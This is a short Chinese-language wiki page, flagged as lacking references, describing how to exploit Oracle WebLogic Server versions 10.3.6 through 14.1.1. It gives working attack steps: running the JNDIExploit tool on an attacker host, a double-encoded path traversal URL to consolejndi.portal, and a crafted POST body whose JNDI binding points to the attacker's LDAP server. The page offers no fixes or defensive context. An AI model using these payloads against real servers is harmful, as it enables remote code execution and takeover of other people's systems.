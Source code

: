 |---|
||---|---|
|![](Book.png "Book.png")|這個頁面的內容缺少參考，無法保證內容的準確性。||

<noinclude>

影響版本
--------

Weblogic Server 10.3.6.0.0

Weblogic Server 12.1.3.0.0

Weblogic Server 12.2.1.3.0

Weblogic Server 12.2.1.4.0

Weblogic Server 14.1.1.0.0

漏洞利用
--------

下載[LDAP](https://github.com/feihong-cs/JNDIExploit/releases/tag/v.1.11) (LDAP需要Java1.8環境)。

    java -jar JNDIExploit-v1.11.jar -i 192.168.1.123

首頁URL後加入

    /console/css/%252e%252e%252f/consolejndi.portal

在Burp中，将get修改爲post，並且構造數據包。

注：192.168.1;123 有個點修改爲分號。

    _pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://192.168.1;123:1389/Basic/WeblogicEcho;AdminServer%22)